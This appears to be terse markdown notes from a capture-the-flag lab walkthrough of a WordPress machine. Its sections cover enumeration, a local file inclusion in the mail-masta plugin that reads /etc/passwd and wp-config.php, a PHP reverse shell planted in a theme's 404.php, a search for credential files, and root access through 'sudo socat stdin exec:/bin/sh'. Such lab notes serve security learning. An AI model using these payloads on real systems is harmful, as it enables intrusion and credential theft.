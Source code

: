 # All in one
> EXPORT_IP :  10.10.216.98

## SCAN
 - nmap/inital

## Directory Enum
```
[Hidden]
: http://10.10.216.98/hackathons
: http://10.10.216.98/wordpress
```

## Wpscan Enum
 - wpscan --url http://{EXPORT_IP}
   - Result : wpscan.log 
 - Attack Point
   - mail-masta
   - exploit-db : https://www.exploit-db.com/exploits/40290
   - LFI : /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
   - wp-config.php
     - php://filter/convert.base64-encode/resource=../../../../../wp-config.php 


## Wp-admin Credential
```
elyana:H@ckme@123
```

## Reverse Shell
```
1.find php-revese-shell point
- Appearance
- theme Editor

2. location
> wordpress/wp-content/themes/twentytwenty/404.php

```

## USER ESCALATE
```
1. find elyana
> find / -user elyana -type f 2>/dev/null
> /etc/mysql/conf.d/private.txt
> elyana:E@syR18ght
```

## PRIVILGE ESCALATE
```
1. su elyana
> E@syR18ght

2. sudo -l -> socat

3. socat
- sudo socat stdin exec:/bin/sh
```